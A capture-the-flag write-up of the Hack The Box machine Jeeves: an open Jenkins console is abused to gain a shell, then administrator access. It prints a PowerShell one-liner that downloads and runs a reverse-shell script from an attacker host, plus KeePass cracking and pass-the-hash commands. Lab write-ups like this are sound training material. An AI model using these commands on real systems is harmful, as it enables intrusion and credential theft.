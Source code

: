 ## Hack The Box - Jeeves (10.10.10.63)
Jeeves is a medium box from Hack The Box and it is a Windows machine. It presents a minor rabit hole but with enough enumeration and familiarity with Windows powershell, Netcat, and Hashcat attackers should have no issue obtaining their flags. 


### Enumeration
To begin with, we will start an nmap scan on our target as part of our first enumeration steps. For this, I will opt to use nmapAutomator, although you can run a traditional nmap scan. 

```markdown
PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Ask Jeeves
135/tcp   open  msrpc        Microsoft Windows RPC
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
50000/tcp open  http         Jetty 9.4.z-SNAPSHOT
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
|_http-title: Error 404 Not Found
Service Info: Host: JEEVES; OS: Windows; CPE: cpe:/o:microsoft:windows
```

We have four open ports on our target machine. After no success with enumerating port 445 (SMB) I decide to open our target machine in a web browser to view what is hosted on port 80 (http://10.10.10.63:80). It appears our target is running ‘Ask Jeeves’ as a service and is running on ‘Microsoft-IIS/10.0’. I will ran a DirBuster scan to enumerate furthur files and directories here but did not obtain anything useful. 


![jeeves](https://user-images.githubusercontent.com/85421181/121051454-17436980-c77f-11eb-8650-e492b0a48f6c.png)

Continueing with our enumeration, I decided to view what is hosted on port 50000 (http://10.10.10.63:50000). It appears our target is running Jetty on this port and it may be running on version 9.4.x according to our nmap scan from earlier. 

![jetty](https://user-images.githubusercontent.com/85421181/121051549-288c7600-c77f-11eb-8db4-3394bb1d663b.png)

As I run another DirBuster scan on our target machine and port 50000 I decide to research possible exploits available for Jetty 9.4.x and later. After attempting several exploits from GitHub, ExploitDB, and Metasploit I decided that their must be another method to obtain our initial foothold. My DirBuster scan from earlier has finished and has reveiled a new directory (/askjeeves). 

![dirb](https://user-images.githubusercontent.com/85421181/121051588-2e825700-c77f-11eb-9ef5-439a7feee42a.png)

It appears our target is hosting an application called Jenkins, a software for developers to automatically build, test, and deploy their software. 

![jenkins](https://user-images.githubusercontent.com/85421181/121051616-33470b00-c77f-11eb-9446-4c541faf6114.png)

After poking around the application it appears that we are able to build and deploiy new projects without any restriction. We will go to ‘New Item > Freeestyle project’ and name our project whatever we choose. On the next page, we are given several options and the most interesting is the ‘Build’ sections where we can select ‘Execute Windows batch command’ as an option. Intresting! Let us craft a payload using a powershell one-liner and Nishang's Invoke-PowerShellTcp.ps1 script. 

### Initial Foothold
We will append the following line to the very end of our Invoke-PowerShellTcp.ps1 script to enable the callback to our attacker machine once executed on our target machine. Please ensure to change ‘10.10.10.10.’ to your IP Address and ‘4444’ to the port which you will be listening on for your reverse shell (netcat will be utilized for this step and will be explained later). 

```markdown
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.10.10 -Port 4444 
```
Great, our script is ready to go! Let's host it on our attacker machine utilizing either SimpleHTTPServer or http.server (either will work). 

```markdown
python -m SimpleHTTPServer 8080
or
python3 -m http.server 8080
```

Our attacker machine is now hosting 'Invoke-PowerShellTcp.ps1' on our IP address on port 8080. Once downloaded and executed by our target it will send a reverse shell to our attacker machine. We will catch this reverse shell utilizing Netcat. To do this, execute the below command and ensure that the port listed in this command is the same listed at the bottom of our Invoke-PowerShellTcp.ps1 script from earlier. 

```markdown
nc -lvnp 4444
```
Time to get our intial foothold. Powershell's IEX is a powerfull resource to have in your toolkit so if this is your first time using it, make sure to commit the following to memory because there will be plenty of opportunities to use it again. We will be executing the following powershell one-liner code in the ‘Execute Windows batch command’ box of our Jenkins application. Before doing so, ensure that 10.10.10.10 is replaced with your attacker machine's IP address. 

```markdown
powershell IEX (New-Object Net.WebClient).downloadString('http://10.10.10.10:8080/Invoke-PowerShellTcp.ps1');
```
![build](https://user-images.githubusercontent.com/85421181/121052031-96d13880-c77f-11eb-8fa3-6c440ed7b0c0.png)

Click ‘Save’ and ‘Build Now’ to see your file get pulled from your attacker machine and executed on the target machine to provide you with your reverse shell caught by Netcat. Congradulations, we have our intial foothold and appear to be a user name ‘kohsuke’. Let us continue with our privledge escalation. 

![foothold](https://user-images.githubusercontent.com/85421181/121052041-9afd5600-c77f-11eb-859e-3a810084317d.png)

### Privledge Escalation
After searching around our target's machine I notice there is a file called ‘CEH.kdbx’ located in ‘C:\Users\kohsuke\Documents’. This file extention is indictive of a keepass file which we will be using keepass2john and hashcat to crack and obtain the cleartext password. So first, download the file to your local attacker machine. 

![CEH](https://user-images.githubusercontent.com/85421181/121052053-9df84680-c77f-11eb-9988-cd6287d6bf24.png)

On your attacker machine run the following command to turn your .kdbx file into a hash we can feed into hashcat for a cleartext password.

```markdown
keepass2john CEH.kdbx > CEH.hash
```
![hash](https://user-images.githubusercontent.com/85421181/121052080-a3559100-c77f-11eb-8041-7d05a4ef1eb0.png)

We will now feed this hash file (CEH.hash) into a tool called hashcat which will provide us with the cleartext password. For this password crack I will be utilizing rockyou.txt as a password file but I encourage everyone to checkout SecLists for more resources. 

```markdown
hashcat -m 13400 CEH.hash rockyou.txt
```
OUTPUT:
![hashcat](https://user-images.githubusercontent.com/85421181/121052096-a6e91800-c77f-11eb-8995-1231c2e705ed.png)

With our password being ‘moonshine1’ we can now view the contents of the keepass file!

![keepass](https://user-images.githubusercontent.com/85421181/121052107-a9e40880-c77f-11eb-8dba-d05c060f6ed8.png)


Viewing all the entries it seems like ‘Backup stuff’ contains an NTLM hash in the password feild. 

```markdown
aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00
```
We can use a pass-the-hash attack to gain access to our target's machine as Administrator. We will use pth-winexe for this attack.

```markdown
pth-winexe -U Administrator%aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00 //10.10.10.63 cmd.exe
```
![pth-winexe](https://user-images.githubusercontent.com/85421181/121052128-b0728000-c77f-11eb-8073-f2db91708325.png)

### Closing Remarks
  We are now Administrator! Before ending this, it is worth nothing that you may not be able to obtain your root flag as easily as the user flag. This is because their is a file stream via the ‘hm.txt’ file located in C:\Users\Administrator\Desktop' and it can only be see by appending /r to your ‘dir’ command. 

![dir](https://user-images.githubusercontent.com/85421181/121052143-b4060700-c77f-11eb-8d07-69e297f563bb.png)

Utilize the following command to obtain your root flag.

```markdown
powershell Get-Content -path C:\Users\Administrator\Desktop\hm.txt -stream root.txt
```
Thanks for reading! 
